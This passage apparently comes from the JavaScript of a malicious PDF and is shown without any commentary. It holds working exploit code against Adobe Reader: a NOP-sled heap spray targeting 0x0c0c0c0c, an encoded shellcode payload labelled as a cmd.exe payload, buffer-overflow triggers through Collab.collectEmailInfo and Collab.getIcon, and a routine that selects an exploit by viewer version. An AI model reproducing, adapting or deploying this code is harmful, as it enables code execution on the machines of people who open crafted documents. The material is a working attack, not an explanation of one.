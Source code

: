 ```javascript
        mem_array[count] = yarsp  +  shellcode;
    }

    var overflow = unescape("%u0c0c%u0c0c");
    while (overflow.length < 44952) {
        overflow += overflow;
    }

    this.collabStore = Collab.collectEmailInfo({
        subj: "", msg: overflow
    });
}

function third_exploit() {
    if (app.doc.Collab.getIcon)  {
        var arry = new Array();
        // cmd.exe payload
        var payload = unescape("%ud3b8%u7458%ud901%u2bcb%ud9c9%u2474%ub1f4%u5a65%u4231%u0312%u1242%u3983%u96a4%u56f4%u0d45%u9bbd%ud7af%ue7f8%u982e%u1dcf%u7aa8%ucad5%u92cf%uf3c1%u9d2f%u4766%ufb49%u941e%uc494%u8389%uacfe%u6ad8%udd95%u0935%uf3a2%u801c%ub2d9%u488c%u2678%u0b5c%udd62%u01f4%u5b82%u4792%u4b5e%u2d2e%ubc2a%uf9ff%ue4c1%u9b9a%u83f7%ucc69%u3938%u1fb1%u7e29%uc50b%ue214%u8248%udcd8%ub3b7%u890b%ue425%uab91%u5210%u5192%uc8fc%u9932%u9def%ubaa1%u0795%u1c9f%uacee%uc5ba%u4b1c%uaf20%u0832%u3e47%u9129%uacf0%ude04%u1062%ue9e7%u0804%uf391%ubf69%ucc69%u71f0%u1108%uccee%u0d20%ubecf%ub462%ud949%u9971%u15e3%u3c5a%ub053%u5d89%u6c82%u6648%u07ae%u7ad2%u148a%ub09d%u1572%u1aab%u33e6%u5a91%ub8af%u4744%udd4a%u8b98%u47f2%u2af0%ub1cc%u03cf%u2707%ufe1e%ued8a%uca57%u23cd%u030e%u7277%u39bc%ubf21%u6423%udf3e%u5d93%uea71%u2a42%u2b4d%ud7b8%u0626%u7de4%ue9b8%ue771%uc85c%u0a82%u1f69%u2e8c%u1db2%u258c%u34bf%u2085%u359e%u98b7%u2cff%ue0a5%u6cf4%uf3c6%u7409%uf5ca%u6919%u60cd%u9a13%u4e19%ua74d%uf71c%ub952%uea11%ucba6%u0839%ud1c0%u2527%ud2c7%u10a5%ud8d8%u62bd%ufff2%u0b9a%uebe9%udfee%u1c04%ud389%u3622%u1d77%u4e5a%u177d%u4c5b%u21b3%u5f43%u31b9%u39a4%ubd2a%u4a21%u1291%uc8e5%u0389%u229e%ub43a%u5e0e%u24c3%ud4aa%ud71d%u7246%u4a4c%u53de%ufbf6%uc952%u7098%u72fa%u153a%u1594%ub5a8%ub801%u2057%u29e5%uc6f9%ud08e%u738b%u275f%u1e42%u22e7%u411a");
        var len = 0x400000  -  (payload.length  *  2  +  0x38);
        var yarsp = unescape("%u9090%u9090");
        yarsp = s(yarsp, len);
        var boundary = (0x0c0c0c0c  -  0x400000)  /  0x400000;
        for (var i = 0; i < boundary; i++) {
            arry[i] = yarsp  +  payload;
        }

        var str = unescape("%09");
        while (str.length < 0x4000) {
            str += str;
        }

        str = "N."  +  str;
        app.doc.Collab.getIcon(str);
    }
}

function run_exploit_wrapper() {
    var version = app.viewerVersion.toString();
    version = version.replace(/D/g, '');
    var version_array = new Array(version.charAt(0), version.charAt(1), version.charAt(2));
    
    if ((version_array[0] == 8) && (version_array[1] == 0)  || (version_array[1] == 1 &&
    version_array[2] < 3)) { // version == 8.0.[0-1-2] || version == 8.1.[0-1-2]
        first_exploit();
    }

    if ((version_array[0] < 8) || (version_array[0] == 8 && version_array[1] < 2 && version_array[2] < 2)) { // version < 8.x.x || version == 8.[0-1].[0-1]
        second_exploit();
    }
```